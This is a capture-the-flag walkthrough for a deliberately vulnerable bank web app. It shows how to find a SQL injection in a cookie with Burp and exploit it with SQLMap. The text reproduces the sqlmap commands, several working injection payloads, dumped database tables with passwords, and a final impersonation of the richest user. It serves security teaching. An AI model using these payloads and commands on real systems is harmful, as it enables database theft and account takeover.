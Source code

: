 # Challenge #3 - Arrogant Bank

## Credentials
Username: giovanni
Password: mycoolpass

## Objectives

- You want to find SQL injection vulnerabilities in the website, determining the type of SQL injection and its exploitability.
- You will also have to extract information from the database exploiting the vulnerability
- Find out the password of the richest in bank
- Become the richest in the bank, to gain respect

## LicenseWhat you will learn

- Inspection of the application logic with burp proxy
- Discovery of a SQL injection
- Exploitation of a SQL injection with SQLMap

## Hints

- MySQL
- Cookie Manipulation

## Steps

Log into the application using the giovanni credentials.

Send the page myaccount.php to burp and change the cookie user to "'" and sed the request.

user='

In the response the code has one MySql error message.

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1


Now let's send the endoint to SQLMap.

sqlmap -u http://3.challenge.sqli.site/myaccount.php --cookie="user=a*" --batch --dbms=mysql

After a few moments SQLMap will return the vulnerable parameter.

sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: user=' OR NOT 7467=7467-- EMVm

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: user=' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7162716a71,(SELECT (ELT(8922=8922,1))),0x717a6a7671,0x78))s), 8446744073709551610, 8446744073709551610)))-- pozw

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=' AND (SELECT 8064 FROM (SELECT(SLEEP(5)))dhkQ)-- FIpi

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: user=' UNION ALL SELECT NULL,CONCAT(0x7162716a71,0x6b6c754a5168626679575968584653744c43494353586570527342594964784b5256436e4f6d7245,0x717a6a7671)-- -
---

List all databases.

sqlmap -u http://3.challenge.sqli.site/myaccount.php --cookie="user=a*" --batch --dbms=mysql --dbs

available databases [2]:                                                                                                                                                         
[*] arrogant_bank
[*] information_schema

List all tables.

sqlmap -u http://3.challenge.sqli.site/myaccount.php --cookie="user=a*" --batch --dbms=mysql -D arrogant_bank --tables

Database: arrogant_bank                                                                                                                                                          
[3 tables]
+----------+
| accounts |
| customer |
| users    |
+----------+

Dump the users table.

sqlmap -u http://3.challenge.sqli.site/myaccount.php --cookie="user=a*" --batch --dbms=mysql -D arrogant_bank -T users --dump

Database: arrogant_bank                                                                                                                                                          
Table: users
[4 entries]
+----+----------+-------------------------+----------+
| id | name     | password                | username |
+----+----------+-------------------------+----------+
| 1  | Armando  | The<<$ArmandoPassword>> | armando  |
| 2  | Barak    | 3809090909              | barak    |
| 3  | Clint    | thegood                 | clint    |
| 4  | Giovanni | mycoolpass              | giovanni |
+----+----------+-------------------------+----------+

Dump the accounts table.

sqlmap -u http://3.challenge.sqli.site/myaccount.php --cookie="user=a*" --batch --dbms=mysql -D arrogant_bank -T accounts --dump

Database: arrogant_bank                                                                                                                                                          
Table: accounts
[4 entries]
+----+---------+-------+-------+---------------------+
| id | user_id | money | views | last_access         |
+----+---------+-------+-------+---------------------+
| 1  | 4       | 10    | 0     | 2021-10-03 11:46:05 |
| 2  | 2       | 50    | 0     | 0000-00-00 00:00:00 |
| 3  | 3       | 100   | 0     | 0000-00-00 00:00:00 |
| 4  | 1       | 1000  | 0     | 0000-00-00 00:00:00 |
+----+---------+-------+-------+---------------------+

The richest bank client is the user id 1. Log using this user to inpersonate the richiest client.



